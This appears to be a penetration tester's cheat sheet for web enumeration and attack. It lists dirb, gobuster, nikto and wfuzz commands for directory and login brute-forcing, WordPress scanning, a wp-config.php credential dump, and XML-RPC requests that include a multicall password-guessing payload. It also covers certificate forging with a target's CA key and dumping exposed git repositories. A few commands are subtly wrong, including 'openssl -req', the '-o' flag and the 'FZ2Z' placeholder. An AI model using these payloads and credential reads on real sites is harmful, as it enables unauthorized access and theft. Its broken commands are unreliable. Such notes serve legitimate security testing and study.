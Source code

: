 # Enumeration

## Directory traversal

### Check for page formats

```
index.html    #static
index.php
index.asp     #IIS
index.aspx    #IIS
index.do
```

### DIRB

```
dirb <site url> -r -z <delay ms>                    #non recursive
dirb <site or internal folder url> -z <delay>       #full scan / folder recursive scan
dirb <site or internal folder url> -w               #ignore warnings (to use when not logged in)
```

#### With dictionary

```
dirb <site url> <dictionary>
```

#### Detailed scan

Fine tune + case insensitive

```
dirb <site url> <dict> -if
```

### Gobuster

```
gobuster dir -u <domain> -w <path to dict> -s '<http codes i.e. 200,403>' -ek
gobuster dir -u <domain> -w <path to dict> -s '<http codes i.e. 200,403>' -x <file extension> -ek
```

#### Work via proxy

Only SOCKS 5 is supported

```
gobuster dir -p socks5://127.0.0.1:<proxy port> -u <url> -w <dict> -ek
```

#### Dictionaries for bruteforce

```
ls -alh /usr/share/seclists/Discovery/Web-Content
```

#### Interesting HTTP codes:

* **200 204** OK
* **301 302 307** Redirect (can be ignored for more refined results)
* **401** Login required (can be bruteforced)
* **403** Forbidden (can be used to locate admin pages)
* **500** Server error

## Nikto

```
nikto -host <site url> -port <port> -maxtime <max time for scan>
nikto -host <site url> -port <port> -dbcheck
```

## WFUZZ

Will replace any instance of the string FUZZ with an entry from a specified dictionary. Can be used to bruteforce pages, script arguments and search for RFI or SQLi vulnerable arguments. The FUZZ keyword can be inserted in every part of the URL or even concatenated with argument strings.

### Directory traversal

```
wfuzz -w <wordlist> <url>/FUZZ -R 4 --sc BBB
wfuzz -w <wordlist> <url>/FUZZ -R 4 --hc 0    #hide empty responses
```

If the server has a custom message for 404 code, you can use the length of the error message as a parameter to distinguish from missing pages and existing ones even if the server always returns 200 as response.

### GET bruteforce

#### Bruteforce argument name

```
wfuzz -w <wordlist> <url>/?FUZZ=test -R 4 --sc BBB
```

#### Bruteforce GET login

```
 wfuzz -z file,<user list> -z file,<pass list> --sc 200,301,302 <url>?user=FUZZ&pass=FUZ2Z
```

### POST bruteforce

#### bruteforce argument

```
wfuzz -w <wordlist> <url> -d <arg>=FUZZ
```

#### POST form bruteforce

```
wfuzz -w <user list> -w <pass list> --sc BBB -d user=FUZZ,pass=FZ2Z
```

## Wordpress

### Enumeration

```http
wpscan --url <host> --enumerate ap,at,cb,dbe
```

Remember to search listed plugins and modules for vulnerabilities.

### Credentials dump:

This file contains plain-text username and password for database login. Sometimes these credentials can also be used to authenticate as another user on target machine.

```http
cat <wp folder>/wp-config.php
```

### XMLRPC

#### Google Dorks

```
inurl:"/xmlrpc.php?rsd"
intitle:"WordPress" inurl:"readme.html"
allinurl:"wp-content/plugins/"
```

#### List methods

```http
POST /xmlrpc.php HTTP/1.1
Host: <host>
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

#### Invoke method

```http
POST /xmlrpc.php HTTP/1.1
Host: <host>
Content-Length: 130

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>demo.sayHello</methodName> 
<params></params> 
</methodCall>
```

#### Single login attempt

```http
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 235

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>{USER}</value></param> 
<param><value>{PASS}</value></param> 
</params> 
</methodCall>
```

#### Multiple attempts in single request

```http
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>{USER}</string></value><value><string>{PASS}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>{USER}</string></value><value><string>{PASS}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>{USER}</string></value><value><string>{PASS}</string></value></data></array></value></data></array></value></member></struct></value>

<value><struct><member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member><member><name>params</name><value><array><data><value><array><data><value><string>{USER}</string></value><value><string>{PASS}</string></value></data></array></value></data></array></value></member></struct></value>

</data></array></value></param></params></methodCall>
```

## Dumping certificates

```
openssl s_client -connect <ip>
openssl x509 -in <file>.pem -text #pretty print certificate 
```

### Create own certificate

Create and sign a certificate from a given Certificate Authority and private .pem key. After creation import the certificate in your browser.

```
openssl genrsa -out <name>.key 2048
openssl -req -new -key <name>.key -out <cert>.csr
openssl x509 -req -in <cert>.csr -CA <cert authority> -CAkey <remote key>.key -CAcreateSerial -days 1024 -sha256 -o <file>.pem
openssl pkcs12 -export -out <file>.pfx -in <file>.pem -inkey <name>.key -certfile <remote cert>.cert
```

## Git repository

If you happen to find a .git folder on a server, you can dump all the files in the repository even if not directly accessible (403 error) with the following tool: [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

```
python3 git-dumper.py <url> <local folder>
```
